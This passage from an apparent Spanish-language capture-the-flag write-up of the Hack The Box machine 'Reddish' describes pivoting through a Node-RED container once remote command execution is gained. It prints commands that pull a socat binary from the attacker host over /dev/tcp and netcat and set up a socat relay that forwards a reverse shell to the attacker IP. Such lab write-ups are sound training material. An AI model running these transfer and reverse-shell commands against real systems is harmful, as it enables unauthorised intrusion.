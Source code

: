 ![Untitled](/assets/img/Reddish/Pasted image 20240312153815.png)

> Se recomienda recopilar los comandos en un script de bash, ya que el servicio web se reinicia constantemente y borra lo cargado.

Obteniendo:

![Untitled](/assets/img/Reddish/Pasted image 20240312153834.png)

![Untitled](/assets/img/Reddish/Pasted image 20240312154712.png)

![Untitled](/assets/img/Reddish/Pasted image 20240312163034.png)

Se dispone de ejecución remota de comandos.

Recordar el segmento de red:

![Untitled](/assets/img/Reddish/Pasted image 20240327193843.png)

La máquina atacante no tiene comunicación directa con el host `172.19.0.3 - 172.20.0.2`. Por lo tanto, se requiere enviar un reverse shell a la máquina `Nodered`, que actuará como intermediaria. Esta última estará a la escucha mediante `socat` y reenviará el tráfico a nuestra máquina atacante, dado que sí tiene comunicación con esta última.

### `Socat` - Reverse Shell

Se gana acceso nuevamente a la máquina `nodered` y utilizando la máquina `nodered` como intermediaria para que redireccione el tráfico hacia nuestra máquina atacante

![Untitled](/assets/img/Reddish/Pasted image 20240312163153.png)

El binario de `socat` se encuentra disponible en [static-binaries/binaries/linux/x86_64/socat at master · andrew-d/static-binaries · GitHub](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat)

Transfiriendo a la máquina `nodered`

```bash
##Maquina victima - receptor <IPEmisor>
cat > socat < /dev/tcp/<10.10.14.12>/444

##Maquina atacante - emisor
nc -nlvp 444 < socat

##Comprobar integridad con md5sum
```

Preparando el túnel a través de:

```bash
##Maquina Node-RED
./socat TCP-LISTEN:7979,fork TCP:10.10.14.12:5555 &

##Maquina atacante
nc -nlvp 5555

```
